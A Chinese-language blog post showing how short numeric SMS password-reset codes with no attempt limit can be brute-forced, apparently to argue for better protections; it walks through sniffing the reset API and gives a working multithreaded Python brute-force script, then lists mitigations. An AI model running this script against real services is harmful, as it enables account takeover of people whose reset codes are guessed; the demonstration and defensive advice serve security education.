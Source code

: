 ```yaml
---
title: 找回密碼之簡訊驗證碼強度安全問題
author: ZhgChgLi
date: 2021-03-14T15:57:38.256+0000
last_modified_at: 2021-03-14T15:57:38.256+0000
categories: ZRealm Dev.
tags: [ios-app-development,hacker,web-security,password-security,security-token]
description: 使用 Python 展示暴力破解的嚴重性
image:
  path: assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
render_with_liquid: false
---
```


### 找回密碼之簡訊驗證碼強度安全問題

使用 Python 展示暴力破解的嚴重性


![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}
### 前言

本文沒什麼資安技術含量，單純是日前在使用某平台網站時的突發奇想；想說順手測看看安全性，結果發現的問題。

在使用網站、APP 服務的忘記密碼找回功能時；一般會有兩個選項，一是輸入帳號、Email，然後會寄含有 Token 的重設密碼頁面連結到信箱，點擊後打開頁面就能重設密碼，這部分沒什麼問題，除非像 [之前那篇](../142244e5f07a/) 文章所說，設計上有漏洞才會有問題。

另一個找回密碼的方式是輸入綁定的手機號碼（多半用在 APP 服務），然後會寄出簡訊驗證碼到手機，完成驗證碼輸入即可重設密碼；但為了便利性，多半的服務都是使用純數字作為驗證碼，另外也因為在 iOS ≥ 11 之後增加 [Password AutoFill](../948ed34efa09/) 功能，當手機收到驗證碼後鍵盤會自動判讀並跳出提示。


![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)


查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"} ，蘋果並沒有給出驗證碼自動填入的判讀格式規則；但我看幾乎所有能支援自動填入的服務都是使用純數字，推測應該是只能用數字不能使用數字英文夾雜的複雜組合。
### 問題

因數字密碼的組合存在暴力破解的可能性，尤其是 4 位密碼；組合只有 0000~9999，10,000 種組合；使用多個 thread 多台機器就能分組暴力破解。

假設驗證請求需要 0\.1 秒回應，10,000 個組合 = 10,000 次請求
```
破解所需嘗試時間：((10,000 * 0.1) / thread 數) 秒
```

就算不開 thread 也只需要 16 多分種就能嘗試出正確的簡訊驗證碼。


> _除密碼長度、複雜度不足之外，還有個問題是驗證碼未設嘗試上限、有效期限太長這兩個問題。_ 




### 組合

綜合上述，此資安問題常見於 APP 端；因網頁服務多半都會在嘗試錯誤多次後加上圖形驗證碼驗證或在請求重設密碼時需多輸入安全問題，增加發送驗證請求的困難度；另外網頁服務的驗證若沒有前後端分離，變成每次驗證請求都要拿整個網頁，拉長請求回應時間。

APP 端因流程設計及方便使用者，多半會簡化重設密碼流程、有的 APP 甚至是通過手機號碼驗證就能登入；如果在 API 端沒有做防護則會造成資安漏洞。
### 實踐


> ⚠️警告⚠️ 本文僅作展示此安全問題的嚴重性，請勿拿去做壞事。 



#### 嗅探驗證請求 API

萬事都從嗅探開始，這部分可參考之前的文章「 [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00/) 」、「 [使用 Python\+Google Cloud Platform\+Line Bot 自動執行例行瑣事](../70a1409b149a/) 」第一篇文章看原理建議使用第二篇文章的 [Proxyman](https://proxyman.io/){:target="_blank"} 進行嗅探。


![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)


如果是前後端分離的網站服務也能使用 Chrome \-> 檢查 \-> Network \-> 查看在送出驗證碼後發了什麼請求。


![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)


**這邊假設得到的檢查驗證碼請求是：**
```
POST https://zhgchg.li/findPWD
```

**Response：**
```
{
   "status":fasle
   "msg":"驗證錯誤"
}
```
#### 撰寫暴力破解 Python 腳本
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

執行腳本後我們得到：


![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
驗證碼等於：1743
```

將 `1743` 帶入重設密碼更改掉原始密碼或直接登入帳號。


> Bigo\! 



### 解決之道
- 密碼重設增加更多資訊驗證（如：生日、安全問題）
- 增加驗證碼長度（如 Apple 6 碼數字）、增加驗證碼複雜度（如果不影響 AutoFill 功能）
- 驗證碼嘗試錯誤大於 3 次後使其失效，需請使用者重新發送驗證碼
- 驗證碼有效時限縮短
- 驗證碼嘗試錯誤過多次鎖定裝置、增加圖形驗證碼
- APP 多做 SSL Pining、傳輸加解密（防止嗅探）

### 延伸閱讀
- [揭露一個幾年前發現的巧妙網站漏洞](../142244e5f07a/)
- [如何打造一場有趣的工程CTF競賽](../729d7b6817a4/)
- [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00/)
- [使用 Python\+Google Cloud Platform\+Line Bot 自動執行例行瑣事](../70a1409b149a/)



[![Like Z Realm's work](https://button.like.co/images/og/likebutton.png "Like Z Realm's work")](https://button.like.co/zhgchgli){:target="_blank"}


有任何問題及指教歡迎 [與我聯絡](https://www.zhgchg.li/contact){:target="_blank"} 。



_Converted [Medium Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}._
